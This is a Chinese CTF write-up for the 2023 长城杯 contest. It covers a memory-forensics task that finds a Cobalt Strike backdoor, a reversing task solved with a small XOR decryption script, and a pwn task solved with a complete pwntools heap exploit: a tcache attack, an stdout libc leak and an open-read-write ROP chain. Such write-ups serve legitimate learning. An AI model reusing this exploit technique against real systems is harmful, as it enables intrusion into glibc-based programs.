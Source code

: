 # 长城杯2023WP

### Misc| ezmem| 二血

首先根据010可以看出是windows10的内存镜像：

![image-20230907225957516](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/09/1694099414.png)

接下来使用volatility3来找密码：

![image-20230907230813250](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/09/1694099516.png)

使用somd5找到密码为114514。

![image-20230907231008253](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/09/1694099416.png)

接下来进程里有一个steam.exe，dump后发现是cs后门，扔进云沙箱可以知道外联ip。

![image-20230907231148215](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/09/1694099510.png)

### Reverse| vvm

首先是主函数：

![image-20230907222749537](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/09/1694096893.png)

观察4020，可以发现一串数据

![](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/09/1694096940.png)

1274函数处疑似为加密逻辑：

![image-20230907222951536](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/09/1694096992.png)

试解密脚本如下：

```python
s = [0x7E,0x78,0x75,0x7F,0x6B,0x52,0x75,0x72,0x6D,0x77,0x4E,0x79,0x79,0x79,0x77,0x44,0x62,0x24,0x60,0x71,0x73,0x60,0x35,0x69]
for i in s:
    print(chr((i ^ 0x16) - 2), end="")
```



结果为：

![image-20230907223849396](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/09/1694097530.png)

### Pwn| veh

无show打stdout，1/16概率。

```python
from pwn import *
import sys
remote_addr = ["47.104.16.93",4551]
libc = ELF('./libc.so.6')
#elf = ELF('')
if len(sys.argv) == 1:
    context.log_level="debug" 
    #p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", "-g","1234","./stack"]) 
    #p = process(["qemu-aarch64", "-L", ".", "./stack"]) 
    p = process("./pwn_patched")
    context(arch='amd64', os='linux')
    context.terminal = ['tmux', 'splitw', '-h']
if len(sys.argv) == 2 :
    if 'r' in sys.argv[1]:
        p = remote(remote_addr[0],remote_addr[1])
    if 'n' not in sys.argv[1]:
        context.log_level="debug" 
        #context(arch = 'amd64', os = 'linux')
r = lambda : p.recv()
rl = lambda : p.recvline()
rc = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()
pr = lambda name,x : log.info(name+':'+hex(x))

DEBUG = 0

def debug(bp = None):
    if DEBUG == 1:
        if bp != None:
            gdb.attach(p, bp)
        else:
            gdb.attach(p)

def add(size):
    sla(b'choice:\n', b'1')
    sla(b'size:\n', str(size).encode())

def edit(content):
    sla(b'choice:\n', b'2')
    sa(b'contents:\n', content)

def delete():
    sla(b'choice:\n', b'3')

debug()
add(0x100)
delete()

add(0x90)
add(0x90)
add(0x90)
delete()
edit(b'aaa')

for i in range(3):
    add(0x150)

delete()

add(0x100)
delete()

for i in range(7):
    edit(p64(0) * 2)
    delete()

edit(b'\xa0\x26')


add(0x100)
add(0x100)
edit(p64(0xfbad1887) + p64(0) * 3 + b'\x00')

libc.address = u64(ru(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x1ec980
pr('libc.address', libc.address)

open = libc.sym['open']
read = libc.sym['read']
write = libc.sym['write']
environ = libc.sym['__environ']

edit(p64(0xfbad1887) + p64(0) * 3 + p64(environ) + p64(environ + 8))
stack_addr = u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))

ret_addr = stack_addr - 0x100

pop_rdi = libc.address + 0x23b6a
pop_rsi = libc.address + 0x2601f
pop_rdx = libc.address + 0x142c92

payload = b'./flag\x00\x00' + p64(pop_rdi) + p64(ret_addr - 8) + p64(pop_rsi) + p64(0) + p64(open)
payload += p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(stack_addr + 0x400) + p64(pop_rdx) + p64(0x50) + p64(read)
payload += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(stack_addr + 0x400) + p64(pop_rdx) + p64(0x50) + p64(write)

add(0x150)
delete()

for i in range(7):
    edit(p64(0) * 2)
    delete()

edit(p64(ret_addr - 8))
add(0x150)
add(0x150)
edit(payload)

sla(b'choice:\n', b'4')

shell()

```

